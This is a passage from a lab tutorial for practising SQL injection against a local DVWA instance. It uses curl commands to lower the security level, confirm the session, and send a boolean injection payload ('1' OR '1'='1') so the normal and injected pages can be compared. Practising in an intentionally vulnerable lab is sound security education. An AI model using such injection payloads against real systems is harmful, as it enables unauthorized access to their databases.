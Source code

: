 You should see a line containing `PHPSESSID` and a long session string.

---

# 2. Set DVWA security to LOW for that session (use same cookie)
This makes DVWA vulnerable so you can practice SQLi.

**Command (single line):**
```bash
curl -s -b cookies.txt -c cookies.txt -d "security=low&seclev_submit=Submit" "http://127.0.0.1/dvwa/security.php" > /dev/null
```

**Confirm `security` cookie now exists:**
```bash
grep -i security cookies.txt || cat cookies.txt
```

Expect a cookie entry named `security` with value `low`.

---

# 3. Confirm the SQLi page is reachable for your session
**Command:**
```bash
curl -s -I -b cookies.txt "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" | sed -n '1,8p'
```

**Good result:** `HTTP/1.1 200 OK` (means the server accepts your session). If you still see `HTTP/1.1 302 Found` with `Location: ../../login.php`, then your terminal session is not authenticated — see Troubleshooting later.

---

# 4. Manual SQLi checks (learn what is happening)

## 4.1 Save the normal page
```bash
curl -s -b cookies.txt "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -o /tmp/sqli_normal.html
```

## 4.2 Save a simple boolean injection page
```bash
curl -s -b cookies.txt "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1%27%20OR%20%271%27=%271&Submit=Submit" -o /tmp/sqli_inj.html
```

## 4.3 Compare the two (quick view)
```bash
echo "--- normal ---"; head -n 40 /tmp/sqli_normal.html
echo "--- injected ---"; head -n 40 /tmp/sqli_inj.html
```
